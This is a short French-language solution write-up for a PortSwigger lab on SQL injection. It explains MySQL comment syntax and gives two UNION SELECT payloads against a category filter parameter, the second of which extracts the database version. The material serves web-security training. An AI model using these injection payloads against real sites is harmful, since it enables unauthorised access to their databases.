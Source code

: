 # Lab

https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft

## Payload

La BDD étant une MySQL, les caractères possibles pour les commentaires sont `#` et `--`.

Cependant, pour les commentaires avec les tirets dans une base MySQL, il faut un espace après : `-- `.

L'espace peut être représenté en URL encoded : `%20`.

Le payload est donc :

```sql
/filter?category=' UNION SELECT NULL, NULL--%20
```

```sql
/filter?category=' UNION SELECT @@version, NULL--%20
```